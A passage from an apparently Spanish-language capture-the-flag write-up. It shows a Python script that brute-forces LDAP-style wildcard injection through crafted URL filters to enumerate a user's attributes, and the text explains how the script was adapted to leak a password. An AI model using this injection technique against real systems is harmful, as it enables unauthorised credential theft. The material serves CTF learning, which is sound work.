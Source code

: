 ```python
    for name  in names:
        print()
        for parameter in parameters:
            log3 = log.progress("Name and Parameter:")
            log3.status(f"{name}  {parameter}")
            for character in characters:
                log1.status(url+name+f")({parameter}={character}*")
               
                r = requests.get(url+name+f")(description={character}*")
                username= re.findall(r'<strong>(.*?)</strong>', r.text)[0]
               
                if  name in username: 
                    log2.status(character)
                    print(colored(f'Discovered parameter {parameter} ', 'blue'))
                    break
                    sys.exit(1)

if __name__=='__main__':
    
    injection()
```

Con esto hemos probado que parametros comunes pueden existir y el unico usuario que tiene es technician, así que listemos cual es el valor de estos parametros.

![script](../../../../../assets/analysis/script1.png)

- Buscando el contenido, por lo general en la vida real no suele encontrar se esto, pero al ser un cft podemos intuir que hay cosas escondidas, de todas los parametros que nos encontramos ahi podemos intuir que hay algo en la descripcion, así que modifique el codigo de está manera, para que me chivara la contraseña.
